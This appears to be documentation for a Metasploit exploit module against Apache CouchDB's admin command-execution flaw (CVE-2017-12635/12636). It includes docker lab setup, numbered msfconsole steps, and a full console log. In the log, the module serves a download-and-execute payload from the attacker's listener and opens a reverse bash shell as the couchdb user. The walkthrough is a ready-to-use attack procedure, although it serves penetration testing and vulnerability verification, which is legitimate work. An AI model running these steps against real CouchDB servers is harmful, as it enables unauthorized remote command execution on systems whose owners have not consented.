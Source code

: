 ## Description  

CouchDB administrative users can configure the database server via HTTP(S).Some of the configuration options include paths for operating system-level binaries that are subsequently launched by CouchDB.This allows an admin user in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to execute arbitrary shell commands as the CouchDB user,including downloading and executing scripts from the public internet.

## Vulnerable Application  

**Vulnerable Application Link** 

- docker  

Couchdb 2.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635  
Couchdb 1.x: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12636


## Vulnerable Application Installation Setup.

Change dictory to CVE-2017-1263X, and run `docker-compose up -d` 


## Verification Steps  

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb```
  4. Do: ``check``

``[*] 192.168.77.139:5984 The target appears to be vulnerable.``

  5. Do: ``set srvhost <ip>``
  6. Do: ``set srvport <port>``
  7. Do: ``set lhost <ip>``
  8. Do: ``set lport <port>``
  9. Do: ``exploit``
  10. You should get a shell.

## Options   

- URIPATH

``URIPATH`` by default is random, you can change it if you want.

- HttpUsername, HttpPassword  

Sometimes it  requires authentication, set these options to authorize.  


## Scenarios  

TESTED AGAINST LINUX

```
msf5 > use modules/exploits/linux/http/apache_couchdb_cmd_exec.rb
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > show options 

Module options (exploit/linux/http/apache_couchdb_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password to login with
   HttpUsername                   no        The username to login as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                          yes       The target address
   RPORT         5984             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit to download and execute. (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set rhost 192.168.77.139
rhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > check 
[*] 192.168.77.139:5984 The target appears to be vulnerable.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set srvhost 192.168.77.139 
srvhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set srvport 8888
srvport => 8888
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > set lhost 192.168.77.139 
lhost => 192.168.77.139
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > exploit 
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.77.139:4444 
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > [*] Using URL: http://192.168.77.139:8888/rXrdf2
[*] 192.168.77.139:5984 - The 1 time to exploit
[*] 192.168.77.139:5984 - Sending the payload to the server...
[*] Command shell session 1 opened (192.168.77.139:4444 -> 172.18.0.2:58348) at 2018-03-27 06:18:21 -0400
[*] Server stopped.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(couchdb) gid=999(couchdb) groups=999(couchdb)
```
